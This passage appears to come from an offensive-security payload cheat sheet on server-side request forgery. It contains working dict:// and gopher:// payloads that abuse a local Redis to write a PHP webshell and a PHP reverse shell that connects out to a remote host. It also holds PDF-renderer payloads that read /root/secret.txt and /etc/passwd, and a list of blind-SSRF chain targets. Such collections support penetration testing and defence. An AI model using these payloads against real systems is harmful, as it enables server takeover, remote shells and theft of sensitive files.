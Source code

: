 
## SSRF exploiting Redis

> Redis is a database system that stores everything in RAM

```powershell
# Getting a webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE

# Getting a PHP reverse shell
gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
gopher://127.0.0.1:6379/_save
```

## SSRF exploiting PDF file

![https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/Images/SSRF_PDF.png](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/Images/SSRF_PDF.png)

Example with [WeasyPrint by @nahamsec](https://www.youtube.com/watch?v=t5fB6OZsR6c&feature=emb_title)

```powershell
<link rel=attachment href="file:///root/secret.txt">
```

Example with PhantomJS 

```js
<script>
    exfil = new XMLHttpRequest();
    exfil.open("GET","file:///etc/passwd");
    exfil.send();
    exfil.onload = function(){document.write(this.responseText);}
    exfil.onerror = function(){document.write('failed!')}
</script>
```

## Blind SSRF

> When exploiting server-side request forgery, we can often find ourselves in a position where the response cannot be read. 

Use an SSRF chain to gain an Out-of-Band output.

From https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/ / https://github.com/assetnote/blind-ssrf-chains

**Possible via HTTP(s)**
- [Elasticsearch](https://github.com/assetnote/blind-ssrf-chains#elasticsearch)
- [Weblogic](https://github.com/assetnote/blind-ssrf-chains#weblogic)
- [Hashicorp Consul](https://github.com/assetnote/blind-ssrf-chains#consul)
- [Shellshock](https://github.com/assetnote/blind-ssrf-chains#shellshock)
- [Apache Druid](https://github.com/assetnote/blind-ssrf-chains#druid)
- [Apache Solr](https://github.com/assetnote/blind-ssrf-chains#solr)
- [PeopleSoft](https://github.com/assetnote/blind-ssrf-chains#peoplesoft)
- [Apache Struts](https://github.com/assetnote/blind-ssrf-chains#struts)
- [JBoss](https://github.com/assetnote/blind-ssrf-chains#jboss)
- [Confluence](https://github.com/assetnote/blind-ssrf-chains#confluence)
- [Jira](https://github.com/assetnote/blind-ssrf-chains#jira)
- [Other Atlassian Products](https://github.com/assetnote/blind-ssrf-chains#atlassian-products)
- [OpenTSDB](https://github.com/assetnote/blind-ssrf-chains#opentsdb)